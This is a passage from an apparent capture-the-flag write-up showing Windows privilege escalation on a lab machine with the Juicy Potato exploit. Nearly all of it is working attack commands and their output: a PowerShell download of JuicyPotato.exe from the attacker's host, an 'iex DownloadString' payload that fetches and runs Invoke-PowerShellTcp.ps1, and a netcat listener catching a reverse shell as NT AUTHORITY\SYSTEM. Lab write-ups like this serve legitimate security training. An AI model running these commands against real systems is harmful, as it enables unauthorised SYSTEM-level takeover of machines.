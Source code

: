 With a compromised user that is part of the `NT AUTHORITY\SERVICE` group and has the `SeImpersonatePrivilege` privilege, and that the operating system is a 64-bit `Windows Server 2008 R2 Datacenter` is a recipe for the [Juicy Potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato). I already had a copy of JuicyPotato on my kali machine, so I went ahead and got the bastard machine to download it from my kali machine:

```powershell
(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.24:8000/JuicyPotato.exe","C:\Windows\Temp\r0kit\JuicyPotato.exe")
```

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [02/Sep/2020 14:33:20] "GET /JuicyPotato.exe HTTP/1.1" 200 -
```

At first, the JuicyPotato exploit didn't work. That was because I needed to change the CLSID to match `Windows Server 2008 R2 Datacenter`. You can find a list of CLSIDs for `Windows Server 2008 R2 Datacenter` [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter).

```
PS C:\Windows\Temp\r0kit> .\JuicyPotato.exe -l 1337 -p "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')" -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -t *
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 1337
....
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

The command above executed the Juicy Potato exploit which invoked an out-of-band powershell process which downloaded and executed the `Invoke-PowerShellTcp.ps1` from my kali machine:

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.9 - - [02/Sep/2020 14:38:03] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

Executing `Invoke-PowerShellTcp.ps1` via an out-of-band powershell process with SYSTEM privileges connected back to my netcat listener:

```
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:49334.
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
```
